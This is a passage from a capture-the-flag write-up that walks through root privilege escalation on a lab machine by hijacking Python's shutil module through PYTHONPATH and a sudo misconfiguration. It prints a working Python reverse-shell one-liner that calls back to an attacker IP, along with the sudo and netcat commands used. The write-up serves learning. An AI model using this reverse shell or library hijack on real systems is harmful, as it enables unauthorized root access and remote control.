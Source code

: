 Let's first check the priority order for the library directories :
![Library Order]({{ "assets/Admirer/libraryOrder.png" | absolute_url }} "Library Order")

This means that, when you'll import a library in a python script with `import sys` or `from matplotlib import pyplot` for example. The python interpreter will first check the **/usr/lib/python2.7** directory to find the requested library. If it did not find it, he will look into **/usr/lib/python2.7/plat-x86_64-linux-gnu** and so on.

Those directories are not writable so it is not possible to write our own library to replace the real one.

But as you may remember, the `sudo -l` command showed that we could modify the environment variables with root privileges when executing the `/opt/scripts/admin_tasks.sh`.

The PYTHONPATH [environment variable](https://python.readthedocs.io/en/latest/using/cmdline.html#envvar-PYTHONPATH) which allow one to modify the default search path for module files and library.

So what if we could modify this environment variable, add a path where we have writes privileges on, and write our own library to hijack the one used in the script ?
Well, yes, we could replace the original library by ours. Looks good !

We can create the `/tmp/.grillette/` directory with write privilege.

In this folder, we write the following script in an file named **shutil.py** (yeah, as the shutil library used in the script):

```python
import sys,socket,os,pty;s=socket.socket();s.connect(("10.10.15.14",4242));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")
```

This is a basic reverse shell which will connect back to our host if we open a listening *netcat*.

With the `sudo -l` miss configuration we can execute the following command :
```
sudo -E PYTHONPATH=/tmp/.grillette/ /opt/scripts/admin_tasks.sh
```

This will run the command with **root** privileges, overwrite the PYTHONPATH environment variable with our previously created directory and execute the `admin_tasks.sh` script.

We just have to wait for a connection on our host by executing `rlwrap nc -lvnp 4242`

And execute the backup program with the 6th option of the script :

![Final root exploit]({{ "assets/Admirer/rootExploit.png" | absolute_url }} "final root exploit")

We are finally **root** on the box !

# Conclusion
Thank you if you made it this far !
This box was really fun, I loved the Adminer exploit as it required to setup an exposed database and exploit an application in an fairly unusual way.
The privilege escalation technique was also very interesting as I didn't know about python library hijacking and I really liked learning about it.

Don't hesitate to give me any feedback if I made any typo, some bad explanation, some wrong information .. or just to say *hello* !
